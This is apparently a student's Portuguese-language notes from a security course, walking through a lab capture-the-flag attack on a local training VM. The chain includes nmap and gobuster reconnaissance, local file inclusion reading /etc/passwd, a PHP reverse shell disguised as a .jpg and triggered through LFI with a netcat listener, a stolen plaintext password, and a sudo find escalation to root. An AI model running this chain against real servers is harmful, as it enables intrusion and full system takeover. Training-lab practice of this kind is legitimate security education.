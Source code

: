 # cyber_sos

https://tiagoalcan.notion.site/Passo-a-passo-Check-06-29bd7765e27380a78fd9c793c9ca7ccf

cp3
burble
hydra
chaves privadas e publicas
netcat?
printf?

nmap -sV 192.168.56.102 (servidor do owasp)
# lista vulnerabilidades do servidor, usar lista do thiago para testar as vulnerabilidaderqwiorj
https://tiagoalcan.notion.site/Cybersecurity-FOR-DEV-197d7765e27380d98603e484416d4a49?source=copy_link

se ter =, permite parametro a url... o exemplo da aula foi um tal de lang=, ai o professor tuchou language=/../../etc/passwd

RFI/LFI ataque de colocar arquivo dentro da host serve pra entrar na host e abrir portas etc
Colocamos um arquivo no parametro da requisição
o comando gobuster olha tudo que tem de importante no servidor

cd /usr/share/wordlists/dirb                           —acessar essa pasta
gobuster dir -u 192.168.56.102/assets/ -w big.txt

listando arquivos dentro da host:

Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 218]
/.htaccess            (Status: 403) [Size: 218]
/.svn                 (Status: 403) [Size: 213]
/1                    (Status: 200) [Size: 72580]
/2                    (Status: 200) [Size: 91665]
/4                    (Status: 200) [Size: 24700]
/3                    (Status: 200) [Size: 117977]
/alpha                (Status: 200) [Size: 3271]
/application          (Status: 200) [Size: 50419]
/clear                (Status: 200) [Size: 509]
/company              (Status: 200) [Size: 1191]
/email                (Status: 200) [Size: 1511]
/fonts                (Status: 301) [Size: 243] [--> http://192.168.56.102/assets/fonts/]                                                                 
/key                  (Status: 200) [Size: 1259]
/loading              (Status: 200) [Size: 1849]
/logo                 (Status: 200) [Size: 3028]
/profile              (Status: 200) [Size: 5015]
/sorting              (Status: 200) [Size: 1121]
Progress: 20469 / 20469 (100.00%)

link do acesso:
http://192.168.56.102/bWAPP/rlfi.php?language=/../../etc/passwd

192.168.56.102/language.php?lang=../../../etc/passwd (CORRETA DA PROVA)

rlfi.php é o arquivo dentro do owasp para testarmos a invasão... ai sempre usamos o language e testamos o passwd


### =====
# GS:
1. netdiscover -i eth0 -P -r (ip do cliente, kali aqui)
2. 192.168.56.102/language.php?lang=../../../etc/passwd (CORRETA DA PROVA, a gente achou um link com ?blabla=, ai muda o valor depois do blabla)
3. acima retorna o arquivo de senhas do servidor, significa que da pra fazer LFI
4. nmap -p- -sV 192.168.56.102 (servidor) (listar as portas)

# webshells, acessar o php, mas tem outros
1. cd /usr/share/webshells/ (sao listas de backdoors (virus) que o kali deixa disponivel, backdoor significa entrar sem login)
2. cd php
3. nano php-reverse-shell.php
## (transformando esse arquivo numa imagem, para fazer o upload do lfi)
1. cp php-reverse-shell.php revshell.php.jpg
2. nano revshell.php.jpg
3. o arquivo fica em "other location" na ui de folder
4. dentro do arquivo, mudar a linha escrito "ip" (para o ip do cliente kali), o port o professor deixou 1234 quieto
5. gobuster dir -u 192.168.56.102 -w /usr/share/wordlists/dirb/big.txt (ip do servidor) (gobuster mapeia a porra toda de pastas) (o retorno dele é varias pastas, o professor entrou numa de uploads, devemos procurar o arquivo que a gente fez o upload)
6. nc -nlvp 1234  (abrir uma porta no kali (cliente) pra esperar o servidor responder)

(sõ é possivel fazer o backdoor atraves da falha, que é pegar o paramentro que mudamos para /etc/passwd/ bla bla e mudamos para ./../../var/www/html/uploads/revshell.php.jpg, que nosso arquivo)
url final: http://192.168.56.102/language.php?lang=../../../var/www/html/uploads/revshell.php.jpg
simplificada: http://192.168.56.102/language.php?lang=/uploads/revshell.php.jpg

(depois de abrir a url acima que é o arquivo que fizemos o upload, nosso terminal com nc -nvlp 1234 vai entrar no servidor, ai fazemos o comando abaixo)
7. python3 -c "import pty;pty.spawn('/bin/bash')" (se nao vai dar erro que nao é um terminal)
8. www-data@bassam-aziz (estamos no usuario www-data, usando a maquina bassam-aziz)

9. cd /home
10. ls (para ver o nome dos usuarios)
11. cd bassam
12. ls (entrega a flag de usuario dentro do bassam, user.txt)
13. cat user.txt (nao vai ter permissao)
14. cd /var/www/html (pasta do apache servidor web)
15. ls (acha a pasta uploads)
16. cd uploads
17. ls (ver o jpg)
18. cd ../ (volta pro apache)
19. ls (descobre um supersecret-for-aziz) (nome do pc)
20. cd supersecret-for-aziz
21. ls (bassam-pass.txt) (nome do pc)
22. cat bassam-pass.txt (mostra a senha, copia usando o mouse)
23. su bassam (nome do usuario)
24. cola a senha com botao direito e entra no usuario bassam

# (dentro do usuario)
26. cd /home/bassam (home do bassam)
27. ls (cacar o user.txt)
28. cat user.txt (primeira flag, agora com permissao no bassam)
29. sudo -l (pra tentar entrar como sudo, ou seja, administrador)
30. cola a senha que pegou do cat bassam-pass.txt (da erro)
31. site maluco, professor pegou esse comando
  32. sudo find . -exec /bin/sh \; -quit
33. whoami (checar se somos root mesmo)
34. cd /root
35. ls (mostra a flag, arquivo flag.txt)
37. cat flag.txt
(mostra a flag final)
